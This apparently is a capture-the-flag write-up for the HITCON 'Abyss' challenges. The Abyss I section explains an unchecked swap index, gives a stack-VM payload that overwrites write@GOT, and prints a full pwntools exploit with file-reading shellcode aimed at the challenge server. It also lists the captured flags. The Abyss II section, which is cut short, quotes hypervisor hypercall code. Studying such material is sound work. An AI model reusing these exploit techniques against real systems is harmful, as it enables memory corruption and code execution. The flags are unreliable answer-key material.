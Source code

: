 # Abyss I II III
## Abyss I
* NX disable.
* `swap` function doesn't check the index, and the `machine` == `stack[-1]`.
```c
void swap_()
{
  unsigned int tmp;

  tmp = stack[machine - 1];
  stack[machine - 1] = stack[machine - 2];
  stack[machine - 2] = tmp;
}
```
* We can control the value of `machine` by `swap()`.
```python
p = '31' + 'a' + op['minus']         # -31
p += op['swap']                      # stack point to write.got
p += 'a' + op['store']               # store the high 4 byte
p += str( 2107662 + 70 ) + op['add'] # add offset -> write.got point to our input
p += 'a' + op['fetch']               # recover high 4 byte
p += op['write'],                    # write() to jmp to our shellcode
```
* exploit:
```python
#!/usr/bin/env python
from pwn import *

# hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}
# hitcon{take_out_all_memory,_take_away_your_soul}

context.arch = 'amd64'
host , port = '35.200.23.198' , 31733
y = remote( host , port )

kernel = open( './kernel.bin' ).read()

s = '31a-\\a:2107732+a;,' + '\x90' * 70
s += asm(
    shellcraft.pushstr( 'flag\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )

y.interactive()
```
## Abyss II
* Part of code of `hypercall read handler` in Hypervisor:
```c
rw((unsigned int)fd_map[fd].real_fd, *(_QWORD *)&vm->mem + buf, len);
```
Where `vm->mem` is our vm phisical address.
Kernel entry is 0, if we can let `but` == 0, so that  we are able to overwrite the kernel memory.
Hypervisor will get the return value of kmalloc().
* `Hypercall read handler`:
```c
vaddr = *(_DWORD *)(vm->run + *(_QWORD *)(vm->run + 40LL));
if ( (unsigned __int64)vaddr >= vm->mem_size )
     __assert_fail("0 <= (offset) && (offset) < vm->mem_size", "hypercall.c", 0x7Eu, "handle_rw");
```
